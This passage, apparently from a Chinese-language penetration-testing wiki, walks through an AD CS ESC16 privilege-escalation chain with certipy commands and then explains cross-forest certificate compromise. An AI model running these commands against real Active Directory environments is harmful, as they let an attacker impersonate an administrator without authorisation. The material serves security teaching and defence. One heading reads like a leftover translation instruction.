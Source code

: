 **步骤 3: （如有需要）获取“受害者”账户的凭据（例如，通过 Shadow Credentials）。**
```shell
certipy shadow \
-u 'attacker@corp.local' -p 'Passw0rd!' \
-dc-ip '10.0.0.100' -account 'victim' \
auto
```
**步骤 4：从 _任何合适的客户端身份验证模板_（例如，“用户”）请求作为“受害者”用户的证书，针对 ESC16 漏洞 CA。** 因为 CA 对 ESC16 漏洞，因此它将自动从颁发的证书中省略 SID 安全扩展，无论该扩展的模板特定设置如何。设置 Kerberos 凭证缓存环境变量（shell 命令）：
```bash
export KRB5CCNAME=victim.ccache
```
然后请求证书：
```bash
certipy req \
-k -dc-ip '10.0.0.100' \
-target 'CA.CORP.LOCAL' -ca 'CORP-CA' \
-template 'User'
```
**步骤 5：恢复“受害者”账户的 UPN。**
```bash
certipy account \
-u 'attacker@corp.local' -p 'Passw0rd!' \
-dc-ip '10.0.0.100' -upn 'victim@corp.local' \
-user 'victim' update
```
**步骤 6：以目标管理员身份进行身份验证。**
```bash
certipy auth \
-dc-ip '10.0.0.100' -pfx 'administrator.pfx' \
-username 'administrator' -domain 'corp.local'
```
## 用被动语态解释的证书妥协森林

### 被妥协的CA破坏森林信任

**跨森林注册**的配置相对简单。资源森林的**根CA证书**由管理员**发布到账户森林**，资源森林的**企业CA**证书被**添加到每个账户森林中的`NTAuthCertificates`和AIA容器**。为了澄清，这种安排授予资源森林中的**CA对其管理的所有其他森林的完全控制**。如果该CA被**攻击者妥协**，则资源森林和账户森林中所有用户的证书都可能被**伪造**，从而破坏森林的安全边界。

### 授予外部主体的注册权限

在多森林环境中，必须谨慎对待**发布证书模板**的企业CA，这些模板允许**经过身份验证的用户或外部主体**（属于企业CA所属森林的外部用户/组）**注册和编辑权限**。\
在信任关系中进行身份验证后，**经过身份验证的用户SID**会被AD添加到用户的令牌中。因此，如果一个域拥有一个企业CA，其模板**允许经过身份验证的用户注册权限**，则来自不同森林的用户可能会**注册该模板**。同样，如果**模板明确授予外部主体注册权限**，则**跨森林访问控制关系由此创建**，使得一个森林中的主体能够**注册另一个森林中的模板**。

这两种情况都会导致**攻击面从一个森林增加到另一个森林**。攻击者可以利用证书模板的设置在外部域中获得额外权限。

## 参考文献

- [Certify 2.0 – SpecterOps Blog](https://specterops.io/blog/2025/08/11/certify-2-0/)

{{#include ../../../banners/hacktricks-training.md}}
